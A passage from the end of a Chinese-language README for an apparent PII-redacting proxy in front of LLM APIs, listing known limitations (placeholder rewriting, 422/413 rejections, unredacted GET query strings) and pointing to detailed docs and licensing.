另外：模型如果把 `⟦EMAIL_1⟧` 改写成 `[EMAIL_1]`，你会原样看到；需要直接处理被脱敏的值的任务效果会变差；控制字符会被替换成可见字符；重启后会丢失 Responses API 的续接对话与记住的值，续接请求会以 422 拒绝；超过 64 MiB 的请求以 413 拒绝；转发的 `GET`（例如 `/v1/models`）查询字符串不脱敏直接发出。完整清单见[技术细节第 17 节](docs/DETAILS.md#17-完整限制清單)，威胁模型见[第 11 节](docs/DETAILS.md#11-威脅模型)。

## 更多

[docs/DETAILS.md](docs/DETAILS.md)（繁体中文）包含架构、与 dsh-privacy-router 的对比、核心 API、每条规则、流式还原、422 拒绝、威胁模型、完整配置、测试、测量方法、常见问题，以及如何重新生成本页的图片和视频。

## 许可证

[Apache-2.0](LICENSE)。部分规则和引擎源自 [LYiHub/pub-dsh-privacy-router](https://github.com/LYiHub/pub-dsh-privacy-router)（MIT），见 [NOTICE](NOTICE)。
